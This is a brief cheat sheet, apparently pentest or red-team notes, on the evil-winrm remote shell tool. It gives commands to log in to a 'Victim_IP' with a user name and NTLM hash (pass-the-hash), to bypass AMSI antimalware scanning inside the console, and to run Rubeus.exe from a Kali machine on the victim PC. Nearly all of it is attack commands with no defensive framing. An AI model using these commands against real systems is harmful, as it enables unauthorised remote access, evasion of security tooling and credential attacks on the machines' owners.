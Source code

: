 evil-winrm

~~~bash
evil-winrm -i Victim_IP -u User -H Hash
~~~

~~~bash
evil-winrm -i 10.100.1.5 -u svc.account -p
~~~

Displaying Evil-WinRM Options:

~~~bash
menu
~~~

Bypassing AMSI in a Evil-WinRM Console:

~~~bash
Bypass-4MSI
~~~

Remotely running Binary from Kali Box on Victim PC:

~~~bash
Invoke-Binary /home/kali/Rubeus.exe
~~~

